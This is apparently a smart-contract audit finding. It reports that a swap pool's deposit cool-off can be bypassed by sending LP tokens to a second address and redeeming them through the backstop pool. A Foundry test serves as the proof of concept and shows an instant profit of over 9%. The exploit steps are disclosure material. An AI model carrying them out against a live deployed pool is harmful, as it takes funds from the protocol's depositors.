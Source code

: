 **Impact:** Medium

**Likelihood:** High

## Description

Deposits into the swap pool are subject to a cool-off period before being available for withdrawal via the backstop pool.

However, this restriction can be bypassed by transferring the LP tokens received from the deposit to another address.

## Proof of concept

Add the following code to the file `BackstopPool.t.sol` and run `forge test --mt test_bypassDepositCoolOff`.

```solidity
function test_bypassDepositCoolOff() public
    changeSwapPoolCoverageTo(swapPool2, 0.2e18)
{
    uint256 initialUsdBalance = usd.balanceOf(address(this));
    uint256 initialAsset2Balance = asset2.balanceOf(address(this));

    // Setup
    vm.roll(20e6);
    address secondaryAccount = makeAddr("secondaryAccount");
    deal(secondaryAccount, 100);
    backstop.setInsuranceFee(address(swapPool2), 100);
    bytes[] memory _mockUpdateData = _makeMockPriceUpdateData(2);

    // Deposit 10 asset2 into swapPool2 and transfer LP tokens to secondary account
    (uint256 lpTokens, ) = swapPool2.deposit(10e18, 0, block.timestamp);
    swapPool2.transfer(secondaryAccount, lpTokens);

    // From secondary account, redeem LP tokens and transfer USD token to main account
    vm.startPrank(secondaryAccount);
    asset2.approve(address(swapPool2), MAX_UINT256);
    backstop.redeemSwapPoolShares{value: 2}(
        address(swapPool2),
        lpTokens,
        0,
        block.timestamp,
        _mockUpdateData
    );
    usd.transfer(address(this), usd.balanceOf(secondaryAccount));
    vm.stopPrank();

    // The result is an instant profit > 9%
    uint256 usdReceived = usd.balanceOf(address(this)) - initialUsdBalance;
    uint256 asset2Spent = initialAsset2Balance - asset2.balanceOf(address(this));
    uint256 asset2SpentInUsd = asset2Spent * ASSET2_PRICE / 1e18;
    uint256 profit = usdReceived - asset2SpentInUsd;
    assert(profit > 0.9e18);
}
```
